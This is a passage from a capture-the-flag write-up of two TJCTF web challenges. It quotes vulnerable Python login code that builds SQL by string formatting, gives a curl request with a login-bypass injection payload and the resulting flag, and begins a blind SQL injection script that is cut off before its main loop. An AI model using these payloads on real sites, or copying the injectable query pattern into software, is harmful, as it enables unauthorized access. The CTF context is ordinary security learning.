 ```html
<!-- The following code might be helpful to look at: -->
<!--
def get_user(username, password):
    database = connect_database()
    cursor = database.cursor()
    try:
        cursor.execute('SELECT username, password FROM `userandpassword` WHERE username=\'%s\' AND password=\'%s\'' % (username, hashlib.md5(password.encode())))
    except:
        return render_template("failure.html")
    row = cursor.fetchone()
    database.commit()
    database.close()
    if row is None: return None
    return (row[0],row[1])
-->
```

Yeah, easy SQL injection incoming ! 

```bash
curl 'https://login_sequel.tjctf.org/login' --data 'username=admin%27+%2F*+&password=123' --compressed
```

🏁 __tjctf{W0w_wHa1_a_SqL1_exPeRt!}__{:.spoiler}

## Weak Password

> It seems your login bypass skills are now famous! One of my friends has given you a challenge: figure out his password on this site. He's told me that his username is admin, and that his password is made of up only lowercase letters and numbers. (Wrap the password with tjctf{...})

Someone said Blind Sql injection ? Just craft a simple python script and leak the password from the userandpassword table. 

```python

#!/bin/python
import requests
import string

headers = {
    'authority': 'weak_password.tjctf.org',
    'cache-control': 'max-age=0',
    'upgrade-insecure-requests': '1',
    'origin': 'https://weak_password.tjctf.org',
    'content-type': 'application/x-www-form-urlencoded',
    'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.92 Safari/537.36',
    'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'sec-fetch-site': 'same-origin',
    'sec-fetch-mode': 'navigate',
    'sec-fetch-user': '?1',
    'sec-fetch-dest': 'document',
    'referer': 'https://weak_password.tjctf.org/',
    'accept-language': 'it-IT,it;q=0.9,fr-IT;q=0.8,fr;q=0.7,en-IT;q=0.6,en;q=0.5,en-US;q=0.4',
}

dic = string.ascii_lowercase + string.ascii_uppercase + string.digits + "!#$&()*+-./:;<=>?@[\]^_`{|}~"
diclen = len(dic)

found = False
result = ""
```